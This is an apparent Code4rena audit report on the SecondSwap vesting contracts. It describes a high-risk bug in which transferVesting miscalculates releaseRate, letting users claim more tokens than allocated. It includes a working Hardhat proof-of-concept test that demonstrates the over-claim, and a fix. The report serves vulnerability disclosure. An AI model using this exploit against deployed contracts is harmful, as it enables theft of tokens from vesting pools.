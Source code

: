 # SecondSwap - Findings Report

# Table of contents
- ## [Contest Summary](#contest-summary)
- ## [Results Summary](#results-summary)

- ## High Risk Findings
    - ### [H-01. Incorrect releaseRate setting during the transfer of vesting allows the users to claim more than they should.](#H-01)

# <a id='contest-summary'></a>Contest Summary

### Sponsor: SecondSwap

### Dates: Dec 9th, 2024 - Dec 19rd, 2024

[See more contest details here](https://code4rena.com/reports/2024-12-secondswap)

# <a id='results-summary'></a>Results Summary

### Number of findings:
- High: 1
- Medium: 0
- Low: 0
  


# High Risk Findings

## <a id='H-01'></a>H-01. Incorrect releaseRate setting during the transfer of vesting allows the users to claim more than they should.

## Impact

Incorrect releaseRate setting during the transfer of vesting inside SecondSwap_StepVesting allows the users to claim more than they should.

## Proof of Concept

Vestings can be transferred between users inside the SecondSwap_StepVesting:transferVesting function. This operation can be triggered by token issuers or during listings where a seller transfers part of his vesting tokens to a manager contract, so that the manager contract can later release them to buyers. However, during this operation, the releaseRate for the grantor's address is invalidly calculated as it does not incur if the grantor has already claimed some tokens or not, which will set the releaseRate to a higher value and lead to the grantor being able to claim more tokens.

```solidity
function transferVesting(address _grantor, address _beneficiary, uint256 _amount) external {
      ...
        grantorVesting.totalAmount -= _amount;
@=>     grantorVesting.releaseRate = grantorVesting.totalAmount / numOfSteps;

        _createVesting(_beneficiary, _amount, grantorVesting.stepsClaimed, true);

        emit VestingTransferred(_grantor, _beneficiary, _amount);
    }
```

Follow scenario can happen:

- User A has 10,000 tokens to claim over 10 steps, with a rate of 1,000 per step.
- After 3 steps have passed, User A claims his 3,000 tokens, leaving a total amount of 7,000 tokens to be claimed.
- After this, user A decides he wants to sell 5,000 of his tokens. During this action, SecondSwap_VestingManager will call transferVesting with _grantor as User A, and _beneficiary as the manager address.

```solidity
function listVesting(address seller, address plan, uint256 amount) external onlyMarketplace {
      ...
        SecondSwap_Vesting(plan).transferVesting(seller, address(this), amount);
    }
```

- During this call, the vesting for the grantor will be updated to the following values:
newTotalAmount = 10k - 5k = 5k and newRate = newTotalAmount / numOfSteps = 5k / 10 = 0.5k. Because the newRate does not account for the earlier 3k of claimed tokens, this will leave the user with 7 steps of 0.5k claimed amount, which is not valid, as the user, after selling 5k and initially claiming 3k, should only be left with 2k.
- After 6 more steps have passed, with the new incorrect rate, user A is able to claim 3k of tokens, which bypasses his initial vesting amount (3k from initial claim + 5k sellable amount + 3k of tokens claimed after listing = 11k).

## Coded PoC

Add the following test to the current project test suite as a new file. For simplicity, this test case invokes the transferOfVesting function as the token issuer, so there are no listings and manager interactions.

```solidity
import hre from "hardhat";
import { expect } from "chai";
import { parseEther } from "viem";
import DeployStepVestingAsOwner from "../ignition/modules/DeployStepVestingAsOwner";
import { loadFixture, mine, time } from "@nomicfoundation/hardhat-toolbox-viem/network-helpers";

describe("Incorrect `releaseRate` setting during the transfer of vesting", function () {
    async function deployStepVestingFixture() {
        const [owner,tokenOwner,alice,bob] = await hre.viem.getWalletClients();
        const startTime = BigInt(await time.latest());
        const endTime = startTime + BigInt(60 * 60 * 24 * 10); // 10 days
        const steps = BigInt(10);
        const initialSupply = parseEther("1000000");
        const Vesting = await hre.ignition.deploy(DeployStepVestingAsOwner, {
            parameters: {
                ERC20: {name: "Test Token", symbol: "TT", initialSupply: initialSupply},
                DeployStepVestingAsOwner: { startTime: startTime, endTime: endTime, numOfSteps: steps},
            },
        });
        await Vesting.token.write.transfer([tokenOwner.account.address, parseEther("1000000")]);
        return { vesting: Vesting.vesting, token: Vesting.token, owner, tokenOwner, alice, bob, startTime, endTime, steps};
    }
    it("PoC", async function () {
        const {vesting, token, tokenOwner, alice, bob} = await loadFixture(deployStepVestingFixture);

        // 1. Create vesting for Bob 
        const bobVestingAmount = parseEther("1000");
        await token.write.approve([vesting.address, bobVestingAmount], { account: tokenOwner.account });
        await vesting.write.createVesting([bob.account.address, bobVestingAmount], { account: tokenOwner.account });

        // 2. Skip 3 days (add slightly more), which will make Bob able to claim 3 steps
        await time.increase(60 * 60 * 24 * 3 + 10);
    
        // 3. Let Bob claim his vested tokens for 3 steps, which will leave 700 tokens more to claim
        let bobBalanceBefore = await token.read.balanceOf([bob.account.address]);
        await vesting.write.claim({account: bob.account})
        let bobBalanceAfter = await token.read.balanceOf([bob.account.address]);
        expect(bobBalanceAfter).to.equal(parseEther("300"));

        // 4. Now, let's transfer some of the Bob vested tokens to Alice
        // This should leave Bob with (1000 - 300 - 500) = 200 tokens left to claim
        const aliceVestingAmount = parseEther("500");
        await vesting.write.transferVesting([bob.account.address, alice.account.address, aliceVestingAmount], {account: tokenOwner.account})

        // 5. Skip 6 days (add slightly more), which will make Bob able to claim another 6 steps
        await time.increase(60 * 60 * 24 * 6 + 10);

        // 6. Let Bob claim his vested tokens for 6 steps
        // Because of invalid rate setting, this will allow Bob to claim 300 tokens (more than he should have) 
        bobBalanceBefore = await token.read.balanceOf([bob.account.address]);
        await vesting.write.claim({account: bob.account})
        bobBalanceAfter = await token.read.balanceOf([bob.account.address]);
        let claimed = bobBalanceAfter - bobBalanceBefore;
        console.log("Bob claimed: ", claimed);
        console.log("Bob balance after: ", bobBalanceAfter);

        // Show that Bob was able to claim more than he should have
        expect(claimed).to.greaterThan(parseEther("200"));
    });
});
```

Run `npx hardhat test`

Output:
```solidity
Incorrect `releaseRate` setting during the transfer of vesting
Bob claimed:  300000000000000000000n
Bob balance after:  600000000000000000000n
```

## Recommended mitigation steps

Include previously claimed amounts when updating the releaseRate for the grantor:

```diff
function transferVesting(address _grantor, address _beneficiary, uint256 _amount) external {
    ...
        grantorVesting.totalAmount -= _amount;
+       if (numOfSteps - grantorVesting.stepsClaimed != 0) {
+           grantorVesting.releaseRate = 
+               (grantorVesting.totalAmount - grantorVesting.amountClaimed) /
+               (numOfSteps - grantorVesting.stepsClaimed);
+       } else {
+           grantorVesting.releaseRate = 0;
+       }

        _createVesting(_beneficiary, _amount, grantorVesting.stepsClaimed, true);

        emit VestingTransferred(_grantor, _beneficiary, _amount);
    }
```

## Links to affected code
- SecondSwap_StepVesting.sol#L230